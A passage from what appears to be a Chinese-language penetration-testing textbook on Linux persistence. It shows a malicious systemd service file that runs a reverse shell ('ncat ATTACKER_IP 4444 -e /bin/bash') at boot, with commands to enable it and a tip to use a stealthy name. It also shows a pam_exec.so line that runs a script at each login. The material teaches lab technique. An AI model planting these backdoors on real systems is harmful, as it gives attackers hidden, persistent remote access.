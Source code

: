 ### systemd

systemd 管理*units*，它们可以表示服务、设备和其他类型的组件。为了实现持久性，我们可以尝试使用 systemd 来注册系统上的一个新服务单元。列表 10-3 展示了一个带有反向 shell 负载的 systemd 服务示例。

```
❶ [Unit]
Description=RevShell
After=network-online.target
❷ Wants=network-online.target

[Service]
❸ ExecStart=**ncat ATTACKER_IP 4444 -e /bin/bash**
❹ Restart=always

[Install]
WantedBy=multi-user.target 
```

列表 10-3：一个恶意 systemd 服务定义文件示例

此服务定义了以下属性：一个新单位❶，网络可用的要求❷，在服务启动时执行反向 shell 到攻击者机器的指令❸，以及如果进程死掉则重新启动的要求❹。

实验室中的容器不运行 systemd，但如果您想尝试此技术，可以在您的 Kali 机器上使用这些命令。要使用该脚本，请在*/etc/system/service*目录下创建一个新的服务文件*revshell.service*。（文件名也是服务名。在真正的攻击中，您可能应该使用更隐秘的名称，以便与环境融合得更好。）然后通过执行 systemctl enable revshell 来启用该服务。

通过 systemctl start revshell 来运行恶意服务。现在，如果机器重新启动，此服务文件应在启动时重新建立连接。

## 钩入可插拔认证模块

*可插拔认证模块（PAMs）* 提供了用于低级认证方案的高级 API，并且应用程序可以使用它们来认证用户。例如，您可以采用外部多因素认证提供者，在登录时提示用户输入代码或插入硬件安全令牌，除了使用传统密码。PAM 配置文件存放在*/etc/pam.d*目录中。

在建立持久性方面，PAM 具有一个有趣的功能：它可以使用*pam_exec.so*库在认证流程的某些点上调用外部脚本。通过修改特定的配置，我们可以使 PAM 在用户登录系统时调用我们自己的脚本，然后执行任何我们想要的操作。

例如，在*/etc/pam.d*下，您会找到一个名为*common-session*的文件。此文件包含所有服务共有的与会话相关的模块。通过向其追加以下行来修改此文件：

```
session     optional     pam_exec.so seteuid /usr/local/bin/pam-helper.sh
```

此行的格式如下：

```
`type - control - module-path - module-arguments`
```

类型是 session，控制是可选的，模块路径是*pam_exec.so*，模块参数设置为 seteuid 和/usr/local/bin/pam-helper.sh。会话类型指的是在用户被允许访问服务之前或之后执行的操作，通常用于诸如日志记录等操作。可选的控制意味着无论此模块成功与否，都不会影响认证或登录流程。模块路径*pam_exec.so*是我们将用于调用外部程序的库，后跟模块参数 seteuid（设置有效用户 ID）和脚本的完整路径。

一旦保存了 PAM 配置文件，*pam_exec.so* 将会在有人登录或退出系统时调用您的脚本（例如，通过运行 su - backup 并提供密码）。我们将为练习 19 提供编写适当持久性脚本的指导。

练习 19：编写恶意 pam_exec Bash 脚本

上一节讲解了如何修改系统的 PAM 配置以调用外部脚本 *pam-helper.sh*。每当用户登录或退出系统时，此脚本将会运行。
